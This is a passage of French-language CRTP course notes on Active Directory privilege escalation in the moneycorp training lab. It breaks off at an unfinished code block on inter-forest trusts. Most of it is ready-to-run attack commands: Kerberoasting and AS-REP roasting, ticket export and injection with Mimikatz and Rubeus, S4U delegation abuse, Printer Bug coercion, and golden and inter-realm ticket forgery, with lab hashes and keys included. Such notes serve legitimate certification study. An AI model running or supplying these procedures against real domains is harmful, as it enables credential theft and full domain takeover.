








# Élévation de privilèges Active Directory

Ce chapitre regroupe les techniques d'élévation de privilèges étudiées dans le parcours CRTP : Kerberoasting, délégation Kerberos, abus des relations d'approbation, AD CS et serveurs MSSQL.

Les exemples proviennent du laboratoire et utilisent notamment les domaines `dollarcorp.moneycorp.local`, `moneycorp.local` et `eurocorp.local`. Les commandes sont conservées depuis les notes source ; adapte les noms de machines, comptes et chemins à ton environnement de laboratoire.

## Kerberoasting

### Kerberoasting classique

Le Kerberoasting cible les comptes associés à un Service Principal Name (SPN). La partie serveur d'un ticket de service (TGS) est chiffrée avec un secret dérivé du mot de passe du compte de service. Le ticket peut donc être récupéré puis soumis à une tentative de cassage hors ligne.



**Identifier les comptes utilisateurs associés à un SPN**

Avec le module ActiveDirectory :

```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

Avec PowerView :

```powershell
Get-DomainUser -SPN
```

**Consulter les statistiques Kerberoast avec Rubeus**

Cette commande affiche les comptes concernés et les types de chiffrement disponibles.

```powershell
Rubeus.exe kerberoast /stats
```

**Demander un TGS pour un compte précis**

```powershell
Rubeus.exe kerberoast /user:svcadmin /simple
```

**Limiter la recherche aux comptes compatibles RC4**

Les notes présentent cette variante pour cibler les comptes qui acceptent RC4-HMAC (`0x17`) et éviter certaines détections liées à une dégradation du type de chiffrement Kerberos.

```powershell
Rubeus.exe kerberoast /stats /rc4opsec
Rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec
```

**Récupérer les tickets Kerberoastables dans un fichier**

```powershell
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```

**Tenter le cassage hors ligne avec John the Ripper**

Le fichier contient les tickets récupérés lors de l'étape précédente.

```powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

**Objectif du laboratoire 14**

- Utiliser Kerberoasting pour retrouver le mot de passe d'un compte de service SQL Server.

### AS-REP Roasting ciblé

Lorsqu'un compte utilisateur n'exige pas de pré-authentification Kerberos, il est possible de demander un AS-REP et de tenter de casser son contenu hors ligne.

Les notes indiquent également qu'un utilisateur disposant de droits suffisants sur l'objet, par exemple `GenericWrite` ou `GenericAll`, peut modifier le paramètre UserAccountControl pour désactiver la pré-authentification.

**Énumérer les comptes sans pré-authentification Kerberos**

Avec PowerView :

```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```

Avec le module ActiveDirectory :

```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```

**Examiner les ACL puis modifier le paramètre de pré-authentification**

Le bloc suivant reprend l'énumération des droits associés à `RDPUsers`, la modification de `userAccountControl` pour `Control1User` et la vérification du résultat.

```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"} 
Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} -Verbose
Get-DomainUser -PreauthNotRequired -Verbose
```

**Demander un AS-REP pour un compte ciblé**

Avec ASREPRoast :

```powershell
Get-ASREPHash -UserName VPN1user -Verbose
```

**Énumérer les comptes concernés et demander leurs empreintes**

```powershell
Invoke-ASREPRoast -Verbose
```

**Tenter le cassage hors ligne avec John the Ripper**

```powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\asrephashes.txt
```

### Kerberoasting ciblé par ajout d'un SPN

Avec des droits `GenericAll` ou `GenericWrite` sur un utilisateur, il est possible de modifier son SPN, à condition que la valeur choisie soit unique dans le domaine. Un TGS peut ensuite être demandé pour ce compte et traité comme un ticket Kerberoast.

**Rechercher les ACL intéressantes**

```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

**Vérifier les SPN déjà associés à l'utilisateur**

Avec PowerView :

```powershell
Get-DomainUser -Identity supportuser | select serviceprincipalname
```

Avec le module ActiveDirectory :

```powershell
Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName
```

**Ajouter un SPN à l'objet utilisateur**

Avec PowerView :

```powershell
Set-DomainObject -Identity support1user -Set @{serviceprincipalname=‘dcorp/whatever1'}
```

Avec le module ActiveDirectory :

```powershell
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add=‘dcorp/whatever1'}
```

**Demander le TGS puis tenter le cassage hors ligne**

```powershell
Rubeus.exe kerberoast /outfile:targetedhashes.txt
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\targetedhashes.txt
```

## Délégation Kerberos

### Principe et fonctionnement du Double Hop

La délégation Kerberos permet à un service de réutiliser l'identité d'un utilisateur pour accéder à une ressource hébergée sur un autre serveur. C'est notamment utile dans une architecture à plusieurs niveaux : un utilisateur accède à un serveur Web, qui doit ensuite interroger un serveur de base de données avec les droits de cet utilisateur.

Le serveur de premier saut doit être autorisé à déléguer l'identité de l'utilisateur. Le schéma du cours illustre le cheminement du TGT et du TGS entre l'utilisateur, le contrôleur de domaine, le serveur Web et le serveur de base de données.


Les notes identifient trois possibilités pour gérer le Double Hop :

```
- Explicit Credentials
- CredSSP
- Delegation
```

Deux grands mécanismes de délégation sont distingués :

- **Unconstrained Delegation** : le service de premier saut peut déléguer vers différents services du domaine.
- **Constrained Delegation** : la délégation est limitée à des services et des machines définis.
- La transition de protocole peut permettre au service de passer d'une authentification non Kerberos à Kerberos.

Dans les deux cas, le service doit pouvoir représenter l'utilisateur auprès du service de second saut.

### Unconstrained Delegation

Lorsqu'un compte ou un ordinateur est configuré en délégation non contrainte, le contrôleur de domaine place le TGT de l'utilisateur dans le TGS transmis au service. Le serveur qui reçoit ce ticket peut extraire le TGT et le conserver dans LSASS.

Si un compte à privilèges élevés, par exemple un Domain Admin, se connecte à ce serveur, son TGT peut être présent sur la machine. La compromission d'un serveur configuré de cette manière peut donc conduire à une élévation de privilèges.


**Identifier les ordinateurs configurés en délégation non contrainte**

Avec PowerView :

```powershell
Get-DomainComputer -UnConstrained
```

Avec le module ActiveDirectory :

```powershell
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

**Examiner les tickets présents sur le serveur**

Après qu'un utilisateur privilégié s'est connecté au serveur concerné, les notes utilisent Mimikatz pour exporter les tickets :

```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

**Réinjecter un ticket dans la session**

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
```

### Printer Bug

Le Printer Bug repose sur MS-RPRN. Il permet à un utilisateur du domaine de provoquer une connexion réseau depuis une machine qui exécute le service Print Spooler vers une machine choisie.

Dans le scénario du laboratoire, l'objectif est de provoquer une connexion du contrôleur de domaine `dcorp-dc` vers le serveur `dcorp-appsrv`, configuré en délégation non contrainte.



**Surveiller les tickets reçus avec Rubeus**

La surveillance est lancée sur le serveur configuré en délégation non contrainte.

```powershell
Rubeus.exe monitor /interval:5 /nowrap
```

**Déclencher la connexion depuis le contrôleur de domaine avec MS-RPRN**

[SpoolSample sur GitHub](https://github.com/leechristensen/SpoolSample)

```powershell
MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```

**Autres outils mentionnés dans les notes**

- [Coercer sur GitHub](https://github.com/p0dalirius/Coercer)
- [PetitPotam sur GitHub](https://github.com/topotam/PetitPotam)

Exemple avec PetitPotam :

```powershell
 .\PetitPotam.exe us-web us-dc
```

Sur la machine destinataire, démarrer la surveillance Rubeus :

```powershell
.\Rubeus.exe monitor /interval:5
```

**Réinjecter le TGT capturé**

Rubeus peut recevoir directement le ticket encodé en Base64 :

```powershell
Rubeus.exe ptt /ticket:
```

La variante suivante écrit le ticket dans un fichier puis l'injecte avec Mimikatz :

```powershell
[IO.File]::WriteAllBytes("C:\AD\Tools\USDC.kirbi",
[Convert]::FromBase64String("ticket_from_Rubeus_monitor"))
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\USDC.kirbi"'
```

**Vérifier l'accès obtenu avec DCSync**

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

**Objectif du laboratoire 15**

- Identifier un serveur du domaine `dcorp` configuré en délégation non contrainte.
- Compromettre ce serveur et étudier l'élévation vers Domain Admin.
- Étudier l'élévation vers Enterprise Admin à l'aide du Printer Bug.

### Constrained Delegation

La délégation contrainte limite les services et les machines auxquels un compte de service peut déléguer l'identité d'un utilisateur.

Elle s'appuie sur les extensions Kerberos S4U (Service for User) :

```
– Service for User to Self (S4U2self) 
# Allows a service to obtain a forwardable TGS to itself on behalf of a user.

– Service for User to Proxy (S4U2proxy) 
# Allows a service to obtain a TGS to a second service on behalf of a user.
```

Deux modes de configuration sont décrits dans les notes :

```
Kerberos only: Kerberos authentication is needed for the service to delegate.
Protocol transition: Regardless of authentication the service can delegate.
```

Le fonctionnement de S4U2Self et S4U2Proxy est précisé ci-dessous. Le premier permet au service d'obtenir un ticket au nom d'un utilisateur ; le second permet de demander un ticket pour un service de destination autorisé.

```
– Service for User to Self (S4U2self) - Allows a service to obtain a forwardable TGS to itself on behalf of a user with just the user principal name without supplying a password. 
# The service account must have the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION - T2A4D UserAccountControl attribute.

– Service for User to Proxy (S4U2proxy) - Allows a service to obtain a TGS to a second service on behalf of a user. 
# Which second service? This is controlled by msDS-AllowedToDelegateTo attribute. This attribute contains a list of SPNs to which the user tokens can be forwarded.
```


Le scénario présenté suit ces étapes :

1. Un utilisateur s'authentifie auprès du service Web, ici exécuté sous le compte `websvc`, avec un mécanisme qui n'utilise pas Kerberos.
2. Le service demande au KDC un ticket pour l'utilisateur, sans disposer de son mot de passe.
3. Le KDC vérifie notamment l'attribut `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` et l'absence de blocage de délégation sur le compte utilisateur.
4. Le service transmet le ticket obtenu au KDC et demande un TGS pour le SPN autorisé dans `msDS-AllowedToDelegateTo`.
5. Le service peut alors accéder à la ressource distante au nom de l'utilisateur.

Pour abuser de cette configuration dans le laboratoire, les notes indiquent qu'il faut contrôler le compte de service et que les SPN présents dans `msDS-AllowedToDelegateTo` déterminent les services autorisés.

**Énumérer les comptes utilisateurs et ordinateurs configurés en délégation contrainte**

Avec PowerView :

```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

Avec le module ActiveDirectory :

```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

#### Abus avec Kekeo

Les exemples du cours nécessitent le mot de passe du compte de service ou son hash NTLM / ses clés AES.

**Demander un TGT pour le compte `websvc`**

```powershell
kekeo# tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f
```

**Demander un TGS avec S4U**

```powershell
tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.LOCAL
```

**Injecter le ticket puis accéder au partage du serveur**

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_cifs~dcorp-mssql.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
	
ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```

#### Abus avec Rubeus

Rubeus permet de demander le TGT et le TGS dans une même commande :

```powershell
Rubeus.exe s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL /ptt

ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```

Les notes soulignent également qu'une délégation peut concerner d'autres services exécutés sous le même compte de service. Le SPN demandé n'est pas toujours limité au service initialement indiqué dans la configuration.

#### Délégation contrainte sur un compte ordinateur

**Demander un TGT pour le compte machine**

```powershell
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:1fadb1b13edbc5a61cbdc389e6f34c67
```

**Demander un ticket S4U pour le service ciblé**

```powershell
tgs::s4u /tgt:TGT_dcorp-adminsrv$@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi/user:Administrator@dollarcorp.moneycorp.local /service:time/dcorp-dc.dollarcorp.moneycorp.LOCAL|ldap/dcorp-dc.dollarcorp.moneycorp.LOCAL
```

**Injecter le ticket et utiliser les services du contrôleur de domaine**

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_ldap~dcorp-dc.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL_ALT.kirbi"'   
Invoke-Command -ScriptBlock{whoami} -ComputerName us-mssql.us.techcorp.local   
Invoke-Mimikatz -Command '"lsadump::dcsync/user:dcorp\krbtgt"'
```

**Variante avec Rubeus**

```powershell
Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b445 /impersonateuser:Administrator/msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
```

**Vérifier les droits avec SafetyKatz**

```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```

**Autre exemple avec le compte `appsvc`**

```powershell
Rubeus.exe s4u /user:appsvc /rc4:1D49D390AC01D568F0EE9BE82BB74D4C /impersonateuser:administrator /msdsspn:CIFS/us-mssql.us.techcorp.local /altservice:HTTP /domain:us.techcorp.local /ptt

winrs -r:us-mssql cmd.exe
```

**Objectif du laboratoire 16**

- Énumérer les comptes utilisateurs pour lesquels la délégation contrainte est activée.
- Pour un compte identifié, demander un TGT puis obtenir un TGS pour le service autorisé.
- Injecter le ticket et accéder au service avec l'identité du compte privilégié.
- Répéter l'énumération sur les comptes ordinateurs et étudier l'utilisation du TGS pour DCSync.

### Resource-Based Constrained Delegation (RBCD)

Avec la délégation basée sur les ressources, le contrôle de la délégation est placé sur l'objet de destination. La configuration repose sur l'attribut `msDS-AllowedToActOnBehalfOfOtherIdentity`, affiché notamment sous le nom `PrincipalsAllowedToDelegateToAccount`.

L'administrateur de la ressource peut donc définir quels comptes sont autorisés à agir au nom d'autres utilisateurs. Contrairement aux autres formes de délégation, la configuration ne dépend pas nécessairement du privilège `SeEnableDelegation`.

Les notes identifient deux conditions à réunir :

- Disposer de droits d'écriture sur l'objet cible afin de configurer `msDS-AllowedToActOnBehalfOfOtherIdentity`.
- Contrôler un objet possédant un SPN, par exemple un compte machine du domaine ou un ordinateur que l'on est autorisé à joindre au domaine. Les notes rappellent la valeur par défaut de `ms-DS-MachineAccountQuota` : 10.

Dans le laboratoire, le compte `ciadmin` possède des droits d'écriture sur l'objet ordinateur `dcorp-mgmt`.

**Identifier les ACL du compte `ciadmin`**

```powershell
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
```

**Configurer la délégation basée sur les ressources sur `dcorp-mgmt`**

```powershell
$comps = 'dcorp-student1$','dcorp-student2$'
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $comps
```

**Récupérer les clés AES du compte machine**

```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

**Demander un ticket S4U puis accéder à la machine cible**

```powershell
Rubeus.exe s4u /user:dcorp-student1$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt

winrs -r:dcorp-mgmt cmd.exe
```

**Objectif du laboratoire 17**

- Identifier un objet ordinateur du domaine `dcorp` sur lequel le compte de laboratoire possède des droits d'écriture.
- Étudier l'utilisation de ces droits pour configurer RBCD et accéder à la machine avec une identité privilégiée.

## Abus des relations d'approbation (Trusts)

Les relations d'approbation permettent à des domaines ou à des forêts distincts de partager des mécanismes d'authentification. Les notes distinguent :

- Les relations entre domaines d'une même forêt.
- Les relations entre forêts, qui nécessitent une relation d'approbation établie.

L'attribut `sIDHistory` permet de conserver l'ancien SID d'un utilisateur lorsqu'il est déplacé d'un domaine à un autre. Dans le contexte étudié, les notes présentent deux pistes d'abus :

```
- krbtgt hash of the child
- Trust tickets
```

### Child to Parent - Trust Tickets

Le scénario consiste à partir du domaine enfant `dollarcorp.moneycorp.local` pour accéder au domaine parent `moneycorp.local`. Les illustrations présentent le flux de confiance entre les domaines.





**Récupérer la clé de confiance entre le domaine enfant et le domaine parent**

Les notes présentent plusieurs méthodes d'obtention de la clé de confiance :

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc
```

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

**Forger un ticket inter-royaume**

```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /rc4:e9ab2e57f6397c19b62476e98e9521ac /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"
```



#### Utilisation de Kekeo

**Demander un TGS pour un service du domaine parent**

```powershell
.\asktgs.exe C:\AD\Tools\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local
```

**Injecter le TGS puis accéder au partage distant**

```powershell
.\kirbikator.exe lsa .\CIFS.mcorp-dc.moneycorp.local.kirbi
ls \\mcorp-dc.moneycorp.local\c$
```

Les notes citent également les services `HOST` et `RPCSS` pour WMI, ainsi que `HTTP` pour PowerShell Remoting et WinRM.

#### Utilisation de Rubeus

Le TGT inter-royaume forgé précédemment est réutilisé pour demander un TGS :

```powershell
Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt 
ls \\mcorp-dc.moneycorp.local\c$
```

**Objectif du laboratoire 18**

- À partir d'un accès Domain Admin sur `dollarcorp.moneycorp.local`, étudier l'élévation vers Enterprise Admin ou Domain Admin dans le domaine parent `moneycorp.local` à l'aide de la clé de confiance.

### Child to Parent - Hash du compte krbtgt

Cette variante repose sur le secret du compte `krbtgt` du domaine enfant et sur l'utilisation de `sIDHistory` pour représenter un groupe privilégié du domaine parent.

**Récupérer le secret et préparer le ticket**

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-	5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"
```

**Injecter le ticket et accéder aux services du domaine parent**

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'
ls \\mcorp-dc.moneycorp.local.kirbi\c$ 
gwmi -class win32_operatingsystem -ComputerName mcorp-dc.moneycorp.local 
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```

**Variante utilisant l'identité d'un contrôleur de domaine**

```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:dcorp-dc$ /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /groups:516 /sids:S-1-5-21-280534878-1496970234-700767426-516,S-1-5-9  /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```

Les SID cités dans les notes correspondent aux groupes suivants :

- `S-1-5-21-2578538781-2508153159-3419410681-516` : Domain Controllers.
- `S-1-5-9` : Enterprise Domain Controllers.

**Objectif du laboratoire 19**

- À partir d'un accès Domain Admin sur `dollarcorp.moneycorp.local`, étudier l'élévation vers Enterprise Admin ou Domain Admin dans le domaine parent `moneycorp.local` à l'aide du hash `krbtgt` du domaine enfant.

### Trust inter-forêts

Les illustrations présentent le flux d'approbation entre deux forêts et les possibilités d'accès aux ressources de la forêt distante.




**Récupérer la clé de confiance inter-forêts**

```powershell
